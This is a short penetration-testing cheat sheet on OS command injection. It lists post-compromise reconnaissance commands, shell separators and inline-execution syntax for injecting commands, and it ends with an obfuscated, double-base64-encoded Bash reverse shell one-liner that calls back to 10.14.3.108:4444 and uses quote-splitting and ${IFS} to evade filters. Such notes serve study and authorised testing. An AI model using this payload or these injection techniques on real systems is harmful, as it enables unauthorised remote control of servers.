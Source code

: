 # OS Command Injection

## OS Command Injection Information

OS command injection (also known as shell injection) is a web security flaw that allows an attacker to run arbitrary operating system (OS) commands on the server that is hosting an application, compromising the program and all of its data.

### Useful commands <a href="#useful-commands" id="useful-commands"></a>

When you've discovered an OS command injection vulnerability, it's always a good idea to run a few test commands to learn more about the system you've infiltrated. The following is a list of commands that can be used on both Linux and Windows platforms:

| Purpose of command       | Linux         | Windows         |
| ------------------------ | ------------- | --------------- |
| Name of the current user | `whoami`      | `whoami`        |
| Operating system         | `uname -a`    | `ver`           |
| Network configuration    | `ifconfig`    | `ipconfig /all` |
| Network connections      | `netstat -an` | `netstat -an`   |
| Running processes        | `ps -ef`      | `tasklist`      |

## Enumerating OS Command Injection

OS command injection attacks can be carried out via a variety of shell metacharacters. Command separators are a set of characters that allow commands to be chained together. On both Windows and Unix-based systems, the following command separators work:

* `&`
* `&&`
* `|`
* `||`

The following command separators work only on Unix-based systems:

* `;`
* Newline (`0x0a` or `\n`)

Backticks or the dollar character can also be used on Unix-based systems to perform inline execution of an injected command within the original command:

* `` ` `` injected command `` ` ``
* `$(` injected command `)`

It's worth noting that the various shell metacharacters have subtle differences in behavior that could affect whether they work in specific contexts and whether they allow in-band command output retrieval or are just effective for blind exploitation.

In the original command, the input that you control may appear within quote marks. In this case, you must terminate the quoted context (using " or ') before injecting a new command using appropriate shell metacharacters.

## Executing arbitrary commands

Bash reverse shell example:

```bash
echo "echo $(echo 'bash -i >& /dev/tcp/10.14.3.108/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
```

Now execute the generate output of the command above and try to execute it.\
